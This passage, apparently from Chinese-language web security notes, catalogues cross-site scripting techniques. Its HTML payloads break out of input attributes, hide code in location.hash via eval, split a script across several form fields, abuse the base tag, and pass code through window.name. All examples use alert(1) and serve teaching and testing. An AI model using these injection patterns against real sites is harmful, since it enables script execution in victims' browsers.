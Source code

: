 **一般构造payload**

```html
<input value=""<script>alert(1)</script>" />
```

**利用事件缩短所需长度**

```html
<input value=""onclick=alert(1)//" />
```

**隐藏代码**

```html
<!--基本格式-->
<input value="" onclick="eval(location.hash.substr(1))" />
<!--Payload-->
<input value="" onclick="eval(location.hash.substr(1))#alert(1)" />
```

> location.hash内容不会在HTTP请求中发送，即Web日志不会记录，第一个字符为#，其中内容长度不受限制

**参数拼接**

```html
<input name="name" value=""><script>/*">
<input name="email" value="*/alert(1)/*">
<input name="phone" value="*/</script>">
```

### \<base\>标签

```html
<base href="http://example.com" />
<img src="/images/logo.jpg" />
```

> 与其下相对路径组合

### window.name

```html
<!--恶意网站设置name-->
<script>
	window.name="alert(1)";
    window.location="http://example.com/xss.php";
</script>
<!--跳转后在example.com执行-->
eval(name)
```

```html
<!--内嵌指定name-->
<iframe src="http://example.com/xss.php" name="alert(1)"></iframe>
```

> iframe页面跳转不会清空window.name

```html
<!--链接指定name-->
<a href="http://example.com/xss.php" target="alert(1)">click me</a>
```
